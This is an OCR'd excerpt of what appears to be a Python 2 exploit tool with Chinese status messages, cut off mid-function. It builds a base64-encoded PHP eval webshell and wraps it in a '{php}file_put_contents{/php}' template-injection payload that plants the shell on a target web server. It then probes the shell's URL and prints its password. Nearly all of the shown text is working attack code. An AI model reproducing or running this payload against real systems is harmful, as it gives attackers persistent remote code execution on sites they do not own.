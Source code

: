             shell = self.url.rstrip('/')+"/%s.php"%self.output

            print "[+] 正在探测Webshell(%s)是否存活"%(shell)

            if(self.request(shell).status_code == 200):

                print "
     Webshell(%s)已存活\n
     密码：%s"%(shell,self.password)





        def createpyload(self):

            short = base64.b64encode("<php eval($_REQUEST[%s]);?>"%self.password)

            file = self.output

            payload = {

                "{php}1{/php}":"{php}file_put_contents('./%s.php',base64_decode('%s'));{/php}"%(file,short)

            }

            return base64.b64encode(json.dumps(payload))



        def request(self,url,method="get"):

            respone = None

            if(not self.session):

                self.session = requests.Session()

            if(method == "get"):

                try:

                    respone = self.session.get(url=url,headers=self.headers)

                except requests.exceptions.ConnectTimeout:

                    print "[-] 请求%s超时"%url

                    return

                except requests.exceptions.ConnectionError:

                    print "[-] 请求%s无效"%url

                    return

                return respone

            elif(method == "post"):

                try:

                    respone = self.session.post(url=url,data=self.requestsdata,headers=self.headers)

                except requests.exceptions.ConnectTimeout:

                    print "[-] 请求%s超时"%url
